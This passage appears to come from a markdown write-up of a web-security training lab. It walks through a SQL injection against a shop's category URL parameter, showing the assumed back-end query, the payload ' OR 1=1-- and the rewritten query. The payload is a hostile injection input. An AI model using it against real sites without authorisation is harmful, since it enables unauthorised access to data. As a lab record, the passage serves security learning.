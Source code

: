 
2. After selecting the Gifts category, We can see the URL changed and we can conclude that the category parameter is parsed through URL.
![image](./Attachments/SQL-Lab1-2.png)

What the back-end query might look like:
```SQL
SELECT * FROM  products WHERE category = 'Gifts' AND released = 1
```

3. 
![image](./Attachments/SQL-Lab1-3.png)
Let's try injecting the payload:
```SQL
' OR 1=1--
```

This payload will change the query to:
```SQL
SELECT * FROM  products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
